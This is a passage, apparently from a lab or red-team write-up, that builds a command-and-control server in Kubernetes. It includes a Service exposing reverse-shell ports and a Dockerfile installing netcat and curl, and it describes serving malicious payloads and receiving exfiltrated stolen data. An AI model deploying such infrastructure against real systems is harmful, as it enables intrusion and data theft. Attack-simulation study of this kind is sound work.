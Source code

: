 ```yaml
          print(f"[{datetime.now()}] Uploads dir: {UPLOAD_DIR}")
          httpd.serve_forever()
```

this C2 needs to be able to serve malicious payloads via `GET` requests and receive exfiltrated data via `POST` requests. the above script should allow processing of multipart form uploads that contain stolen data. 

the Kubernetes Service exposes the payload server:

```yaml
apiVersion: v1
kind: Service
metadata:
  name: payload-server
  namespace: default
spec:
  selector:
    app: payload-server
  ports:
  - name: http
    port: 8080
    targetPort: 8080
  - name: shell1
    port: 4444
    targetPort: 4444
  - name: shell2
    port: 7456
    targetPort: 7456
  - name: echo
    port: 4445
    targetPort: 4445
```

we now have a stable DNS name: `payload-server.default.svc.cluster.local`. we have exposed multiple C2 channels, and created an echo service for connectivity testing.

the payload server uses the [image from here](https://hub.docker.com/layers/bilals12/payload-server/latest/images/sha256:fc8d9000d39b8d9efb38476b61594639fac8ff5ba69ed7dea0fe6b669c84290b?uuid=7660b258-5398-4e6a-b756-31faeb4add7e%0A), called `Dockerfile.payload`.

```Dockerfile
FROM python:3.9-slim

# Avoid interactive prompts during installation
ENV DEBIAN_FRONTEND=noninteractive
ENV TZ=Etc/UTC

# Set configurable ports
ENV HTTP_PORT=8080
ENV SHELL_PORT_1=4444
ENV SHELL_PORT_2=7456

# Install necessary tools
RUN apt-get update && apt-get install -y \
    curl \
    wget \
    netcat-openbsd \
    netcat-traditional \
    && rm -rf /var/lib/apt/lists/*

# Create payload directory structure
RUN mkdir -p /payloads/uploads && \
    mkdir -p /payloads/shells

# Copy payloads
```